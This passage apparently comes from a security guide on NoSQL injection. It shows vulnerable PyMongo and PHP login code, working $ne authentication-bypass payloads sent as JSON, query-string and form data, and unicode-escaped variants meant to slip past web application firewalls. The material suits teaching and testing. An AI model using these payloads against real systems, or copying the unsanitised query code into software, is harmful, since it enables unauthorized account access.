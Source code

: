 Injection via HTTP request:
```
POST /login HTTP/1.1
Content-Type: application/json

{"username": "admin", "password": {"$ne": ""}}
```

### Python + PyMongo Example

Vulnerable code:
```python
@app.route('/user', methods=['GET'])
def find_user():
    username = request.args.get('username')
    user = db.users.find_one({'username': username})
    return jsonify(user)
```

Injection when username is processed directly:
```
GET /user?username[$ne]=dummy HTTP/1.1
```

### PHP + MongoDB Example

Vulnerable code:
```php
<?php
$username = $_POST['username'];
$password = $_POST['password'];

$query = array("username" => $username, "password" => $password);
$user = $collection->findOne($query);
?>
```

Injection via POST request:
```
username=admin&password[$ne]=
```

## WAF Bypass Techniques for NoSQL Injection

### JSON Encoding Variations

```javascript
// Standard injection
{"username": {"$ne": null}}

// Unicode escapes
{"\u0075\u0073\u0065\u0072\u006e\u0061\u006d\u0065": {"\u0024\u006e\u0065": null}}

// Nested properties
{"username": {"$eq": {"$ne": "dummy"}}}
```
